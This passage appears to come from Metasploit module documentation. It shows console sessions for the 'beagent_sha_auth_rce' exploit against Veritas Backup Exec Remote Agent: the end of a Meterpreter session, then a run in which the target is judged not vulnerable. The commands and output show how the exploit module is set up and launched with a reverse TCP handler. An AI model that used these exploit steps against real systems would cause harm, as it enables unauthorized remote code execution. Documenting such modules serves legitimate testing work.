 ```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.16.199.133 - Meterpreter session 2 closed.  Reason: User exit
```

### Windows; Backup Exec 21.2 (Backup Exec Remote Agent, revision 9.4) - NOT VULNERABLE
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.135
rhosts => 172.16.180.135
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[*] 172.16.180.135:10000 - The target is not exploitable. SHA authentication is disabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.135:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[-] 172.16.180.135:10000 - Exploit aborted due to failure: not-vulnerable: The target is not exploitable. SHA authentication is disabled "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > 
```
